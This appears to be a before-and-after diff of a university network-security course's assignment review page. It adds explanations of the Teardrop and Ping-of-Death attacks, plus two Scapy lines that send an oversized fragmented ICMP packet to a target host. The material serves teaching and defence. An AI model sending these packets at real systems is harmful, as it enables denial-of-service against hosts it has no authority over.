

Before and after one commit to ycpcs/cs335-spring2026, a Jekyll site: the page built from assignments/assignment-2-review.md, in a window 1280 px wide and 1400 px high, scrolled down 1844 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
add example

````diff
--- a/assignments/assignment-2-review.md
+++ b/assignments/assignment-2-review.md
@@ -102,7 +102,11 @@ Please create two packets to emulate the Teardrop attack. Provide:
 - A brief explanation of how the overlap occurs
 
 **Answer**:
-Overlapping fragments:
+A Teardrop attack exploits the IP reassembly process.
+- The attacker sends malformed, overlapping IP fragments to a target.
+- The fragments have offsets that conflict when the target tries to reassemble them.
+
+Overlapping fragments example:
 
 ```python
 #!/usr/bin/python3
@@ -148,9 +152,12 @@ Please create two packets to emulate the Ping-of-Death attack. Provide:
 - Python code
 - A brief explanation of how the overlap occurs
 
-**Answer**: A Teardrop attack exploits the IP reassembly process.
-- The attacker sends malformed, overlapping IP fragments to a target.
-- The fragments have offsets that conflict when the target tries to reassemble them.
+**Answer**: A Ping-of-Death attack is a denial-of-service exploit where an attacker sends malformed, oversized fragmented ICMP packets that exceed the 65,535-byte IP limit, causing vulnerable systems to crash when reassembling them.
+
+```python
+send ( IP(dst=target, id=1111, flags="MF") / ICMP() / ("D" * 65528) )
+send ( IP(dst=target, id=1111, frag=8191) / ("D" * 100) )
+```
 
 ### Problem 6
 What is reverse path filtering? What is the purpose of such a mechanism?
````
